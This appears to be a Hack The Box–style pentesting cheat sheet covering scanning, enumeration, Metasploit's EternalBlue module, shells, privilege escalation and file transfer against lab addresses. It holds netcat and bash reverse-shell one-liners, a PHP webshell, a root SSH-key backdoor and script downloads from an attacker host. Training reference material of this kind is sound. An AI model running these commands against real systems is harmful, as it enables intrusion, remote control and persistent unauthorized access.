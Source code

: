 ## Basic Tools

Banner grabbing: 
```shell-session
Fr1zzleFry@htb[/htb]$ netcat 10.10.10.10 22
```

|**Command**|**Description**|
|---|---|
|**General**||
|`sudo openvpn user.ovpn`|Connect to VPN|
|`ifconfig`/`ip a`|Show our IP address|
|`netstat -rn`|Show networks accessible via the VPN|
|`ssh user@10.10.10.10`|SSH to a remote server|
|`ftp 10.129.42.253`|FTP to a remote server|
|**tmux**||
|`tmux`|Start tmux|
|`ctrl+b`|tmux: default prefix|
|`prefix c`|tmux: new window|
|`prefix 1`|tmux: switch to window (`1`)|
|`prefix shift+%`|tmux: split pane vertically|
|`prefix shift+"`|tmux: split pane horizontally|
|`prefix ->`|tmux: switch to the right pane|
|**Vim**||
|`vim file`|vim: open `file` with vim|
|`esc+i`|vim: enter `insert` mode|
|`esc`|vim: back to `normal` mode|
|`x`|vim: Cut character|
|`dw`|vim: Cut word|
|`dd`|vim: Cut full line|
|`yw`|vim: Copy word|
|`yy`|vim: Copy full line|
|`p`|vim: Paste|
|`:1`|vim: Go to line number 1.|
|`:w`|vim: Write the file 'i.e. save'|
|`:q`|vim: Quit|
|`:q!`|vim: Quit without saving|
|`:wq`|vim: Write and quit|

## Pentesting

|**Command**|**Description**|
|---|---|
|**Service Scanning**||
|`nmap 10.129.42.253`|Run nmap on an IP|
|`nmap -sV -sC -p- 10.129.42.253`|Run an nmap script scan on an IP|
|`locate scripts/citrix`|List various available nmap scripts|
|`nmap --script smb-os-discovery.nse -p445 10.10.10.40`|Run an nmap script on an IP|
|`netcat 10.10.10.10 22`|Grab banner of an open port|
|`smbclient -N -L \\\\10.129.42.253`|List SMB Shares|
|`smbclient \\\\10.129.42.253\\users`|Connect to an SMB share|
|`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`|Scan SNMP on an IP|
|`onesixtyone -c dict.txt 10.129.42.254`|Brute force SNMP secret string|
|**Web Enumeration**||
|`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`|Run a directory scan on a website|
|`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`|Run a sub-domain scan on a website|
|`curl -IL https://www.inlanefreight.com`|Grab website banner|
|`whatweb 10.10.10.121`|List details about the webserver/certificates|
|`curl 10.10.10.121/robots.txt`|List potential directories in `robots.txt`|
|`ctrl+U`|View page source (in Firefox)|
|**Public Exploits**||
|`searchsploit openssh 7.2`|Search for public exploits for a web application|
|`msfconsole`|MSF: Start the Metasploit Framework|
|`search exploit eternalblue`|MSF: Search for public exploits in MSF|
|`use exploit/windows/smb/ms17_010_psexec`|MSF: Start using an MSF module|
|`show options`|MSF: Show required options for an MSF module|
|`set RHOSTS 10.10.10.40`|MSF: Set a value for an MSF module option|
|`check`|MSF: Test if the target server is vulnerable|
|`exploit`|MSF: Run the exploit on the target server is vulnerable|
|**Using Shells**||
|`nc -lvnp 1234`|Start a `nc` listener on a local port|
|`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`|Send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`|Another command to send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`|Start a bind shell on the remote server|
|`nc 10.10.10.1 1234`|Connect to a bind shell started on the remote server|
|`python -c 'import pty; pty.spawn("/bin/bash")'`|Upgrade shell TTY (1)|
|`ctrl+z` then `stty raw -echo` then `fg` then `enter` twice|Upgrade shell TTY (2)|
|`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`|Create a webshell php file|
|`curl http://SERVER_IP:PORT/shell.php?cmd=id`|Execute a command on an uploaded webshell|
|**Privilege Escalation**||
|`./linpeas.sh`|Run `linpeas` script to enumerate remote server|
|`sudo -l`|List available `sudo` privileges|
|`sudo -u user /bin/echo Hello World!`|Run a command with `sudo`|
|`sudo su -`|Switch to root user (if we have access to `sudo su`)|
|`sudo su user -`|Switch to a user (if we have access to `sudo su`)|
|`ssh-keygen -f key`|Create a new SSH key|
|`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`|Add the generated public key to the user|
|`ssh root@10.10.10.10 -i key`|SSH to the server with the generated private key|
|**Transferring Files**||
|`python3 -m http.server 8000`|Start a local webserver|
|`wget http://10.10.14.1:8000/linpeas.sh`|Download a file on the remote server from our local machine|
|`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`|Download a file on the remote server from our local machine|
|`scp linenum.sh user@remotehost:/tmp/linenum.sh`|Transfer a file to the remote server with `scp` (requires SSH access)|
|`base64 shell -w 0`|Convert a file to `base64`|
|`echo f0VMR...SNIO...InmDwU \| base64 -d > shell`|Convert a file from `base64` back to its orig|
|`md5sum shell`|Check the file's `md5sum` to ensure it converted correctly|
